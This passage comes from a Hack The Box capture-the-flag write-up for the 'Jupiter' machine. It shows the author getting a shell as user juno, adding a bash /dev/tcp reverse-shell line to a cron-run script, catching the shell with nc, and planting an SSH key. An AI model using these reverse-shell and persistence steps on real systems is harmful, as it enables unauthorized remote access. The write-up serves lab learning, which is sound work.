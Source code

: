 I apply this and after a while I run /tmp/bash -p and get a shell as juno !

<figure><img src="HacktheBox/.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

But if I try to cat user.txt, I get permission denied due to my uid not being juno. We know that shadow-simulation.sh (which is a file in juno's directory) is run every two minutes, but now we have permissions as juno so we can edit it and get a reverse shell from this script, I use a line from revshells.com.

```
bash-5.1$ cat shadow-simulation.sh
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
bash -i >& /dev/tcp/10.10.16.74/1244 0>&1
```

```
   ~ nc -lvnp 1244
Connection from 10.10.11.216:60936
bash: cannot set terminal process group (45335): Inappropriate ioctl for device
bash: no job control in this shell
juno@jupiter:/dev/shm$
```

```
juno@jupiter:~$ cat user.txt
cat user.txt
5de6512a71cd*******************
juno@jupiter:~$
```

And we have got our user!

I add myself to the .ssh/authorized\_keys file just for convience purposes and proceed with root.

## Root

I run linpeas as usual and the user juno has a group set as science.

8. Besides the juno group, what other group is juno a part of? science

<figure><img src="HacktheBox/.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>
